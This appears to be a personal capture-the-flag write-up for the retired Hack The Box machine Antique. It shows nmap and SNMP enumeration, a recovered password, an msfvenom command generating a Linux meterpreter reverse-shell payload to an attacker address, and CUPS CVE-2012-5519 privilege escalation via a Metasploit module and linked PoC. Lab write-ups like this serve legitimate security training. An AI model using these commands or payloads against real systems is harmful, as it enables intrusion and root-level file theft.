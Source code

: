```yaml
---
tags:
  - HTB
  - Retired
  - Linux
  - CUPS
  - SMTP
  - TELNET
creation date: 2021-09-27
Date Completed: 2024-08-31
CVEs: CVE-2012-5519
URL: https://app.hackthebox.com/machines/400
IP: 10.129.44.204
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
```

```
sudo nmap 10.129.44.204 -T4 -sU -p 161 -A
```

```
161/udp open  snmp    SNMPv1 server (public)
```

### udp-proto-scanner
```session
udp-proto-scanner.pl 10.129.44.204
```

Received reply to probe snmp-public (target port 161) from 10.129.44.204:161: 302902010004067075626c6963a21c02044c33a756020100020100300e300c06082b060102010105008100

### SNMP

![[Pasted image 20240831100516.png]]
![[Pasted image 20240831100541.png]]


```
P@ssw0rd@123!!123
```

```
onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.129.44.204
```

## Foothold

![[Pasted image 20240831100600.png]]
![[Pasted image 20240831100727.png]]

## Get a better Shell

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.15.64 LPORT=1337 -f ELF > shell
```

## Privilege Escalation

`ls -lah /etc/`
cups stood out to me.
![[Pasted image 20240831104656.png]]

`ss -antp`
tells me there's website running
![[Pasted image 20240831104735.png]]


i tried portfwd in metasploit but it didn't work. so I curled the website on the victim system which got me the cups version. from there i reassured CUPS v1.6.1 and found a CVE, PoC, and a metasploit module

![[Pasted image 20240831104841.png]]
![[Pasted image 20240831104856.png]]

```
post/multi/escalate/cups_root_file_read
```

also works:
https://github.com/p1ckzi/CVE-2012-5519/blob/main/cups-root-file-read.sh

writeup with ways to go beyond root
https://0xdf.gitlab.io/2022/05/03/htb-antique.html#cve-2015-1158